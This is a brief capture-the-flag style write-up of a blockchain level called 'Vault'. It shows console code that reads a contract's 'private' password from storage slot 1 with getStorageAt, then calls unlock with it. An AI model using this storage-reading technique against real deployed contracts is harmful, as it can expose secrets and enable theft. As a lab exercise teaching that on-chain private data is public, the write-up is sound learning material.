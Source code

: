 # Vault

Type in the browser console:

```
> await contract.locked()
true
```

Password is stored in the blockchain so we can get access it even if it is marked with the ``private`` keyword. We will use the ``getStorageAt`` method from the Web.js library that has two arguments: address of contract and index of storage slot to read. Looking at the source code of the level contract, we see that the ``locked`` variable is stored at index 0, so ``password`` must be at index 1. Execute the following code:

```
var password = await web3.eth.getStorageAt(instance, 1);
await contract.unlock(password);
```

Type in the browser console:

```
> await contract.locked()
false
```

Level finished.
